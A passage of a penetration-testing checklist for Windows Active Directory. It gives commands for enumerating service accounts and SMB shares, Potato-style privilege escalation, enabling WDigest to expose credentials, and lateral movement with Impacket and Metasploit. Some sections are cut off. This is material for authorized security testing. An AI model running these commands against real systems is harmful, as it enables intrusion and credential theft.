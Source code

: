- [ ] Check Protected Users group
  ```bash
  Get-ADGroupMember -Identity "Protected Users"
  ```
  - *Why*: Protected Users have enhanced security (no NTLM, Kerberos restrictions)
  - *What to look for*: Important accounts that may require different attack strategies

- [ ] Identify service accounts
  ```bash
  Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
  ```
  - *Why*: Service accounts often have valuable permissions and static passwords
  - *What to look for*: Service accounts with SPNs for Kerberoasting

### Network Share Enumeration
- [ ] Find accessible SMB shares
  ```bash
  crackmapexec smb <target> -u 'user' -p 'password' --shares
  smbmap -H <target> -u 'user' -p 'password'
  ```
  - *Why*: Network shares often

## 6. Local Privilege Escalation

### Service Vulnerabilities
- [ ] Check for Potato attack vectors
  ```powershell
  # For Windows 10 < 1809
  JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c whoami > c:\temp\whoami.txt" -t *
  
  # For Windows 10 >= 1809
  JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami > C:\temp\out.txt"
  ```

### Credential Access
- [ ] Check WDigest setting
  ```powershell
  reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
  
  # Enable WDigest (as an attacker)
  reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
  ```
- [ ] Check LSA Protection
  ```powershell
  reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL
  ```

## 7. Lateral Movement

### Common Techniques
- [ ] Use PsExec for remote command execution
  ```bash
  # Impacket
  psexec.py domain/user:password@target
  
  # Metasploit
  use exploit/windows/smb/psexec
  ```
- [ ] Use WMI for remote execution
  ```bash
  # Impacket
  wmiexec.py domain/user:password@target
  
  # PowerShell
  ```